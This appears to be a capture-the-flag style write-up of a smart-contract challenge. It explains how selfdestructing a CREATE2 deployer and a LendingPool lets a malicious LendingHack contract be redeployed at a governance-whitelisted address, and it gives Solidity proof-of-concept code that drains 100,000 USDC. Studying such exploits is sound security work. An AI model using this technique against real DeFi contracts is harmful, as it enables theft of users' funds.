 The result of this attack process is:

- The LendingPool contract at the whitelisted address is replaced with the malicious LendingHack contract.
- The contract name is changed from "LendingPool V1" to "LendingPool hack".
- All USDC tokens (100,000) are transferred to the attacker's address.

This attack succeeds because the LendExGovernor contract continues to recognize the contract at the LendingPool's address as a valid, whitelisted contract, even though its implementation has been completely replaced.

## Proof of Concept (PoC)

### Core Implementation

The core implementation of the attack is split between the `setUp()` and `testExploit()` functions in the `Challenge3Test` contract, as well as the `LendingHack` contract. Here's the breakdown of the implementation:

1. In the `setUp()` function:

```solidity
// Selfdestruct CreateDeployer to clear its code thus reset nonce
createDeployer.cleanUp();

// Selfdestruct LendingPool to clear its code for HackPool to deploy
lendingPool.emergencyStop();
```

2. In the `testExploit()` function:

```solidity
// Re-deploy CreateDeployer to the same address
createDeployer = CreateDeployer(create2Deployer.deploy());

// Deploy LendingHack to the same address as the original LendingPool
LendingHack hackPool = LendingHack(createDeployer.deploy(false, address(usdc)));

// Verify it's the same address
assertEq(address(hackPool), address(lendingPool), "Hack pool should be at the same address as original pool");

// Steal the funds
hackPool.stealFunds(hacker);
```

3. In the `LendingHack` contract:

```solidity
contract LendingHack is Ownable {
    USDC public usdc;
    string public constant name = "LendingPool hack";

    constructor(address _owner, address _usdc) {
        _transferOwnership(_owner);
        usdc = USDC(_usdc);
    }

    // Function to steal all USDC from this contract
    function stealFunds(address _hacker) public onlyOwner {
        uint256 balance = usdc.balanceOf(address(this));
        usdc.transfer(_hacker, balance);
    }
}
```
